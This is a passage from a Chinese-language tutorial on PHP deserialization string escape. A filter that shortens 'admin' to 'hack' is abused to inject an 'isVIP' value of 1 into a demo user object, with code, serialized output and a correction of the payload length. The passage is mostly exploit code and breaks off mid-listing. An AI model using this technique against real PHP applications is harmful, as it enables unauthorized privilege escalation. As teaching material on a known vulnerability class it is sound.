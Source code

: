 完整代码为：

```php
<?php
class user{
    public $username;
    public $password;
    public $isVIP;

    public function __construct($u,$p){
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($s){
    return str_replace("admin","hack",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>
```

输出：

```php
O:4:"user":3:{s:8:"username";s:110:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:"";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-ff5bd4c85172cc621f2cf80dcb2f7efc21929e7e.png)

选中部分一共有111个字符，

造成这种现象的原因是：替换之前我们目标子串的位置是123456，一共6个字符，替换之后我们的目标子串显然超过10个字符，所以会造成计算得到的payload不准确

解决办法是：多添加1个admin，这样就可以补上缺少的字符。

修改后代码如下：

```php
<?php
class user{
    public $username;
    public $password;
    public $isVIP;

    public function __construct($u,$p){
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($s){
    return str_replace("admin","hack",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}');
$a_seri = serialize($a);
```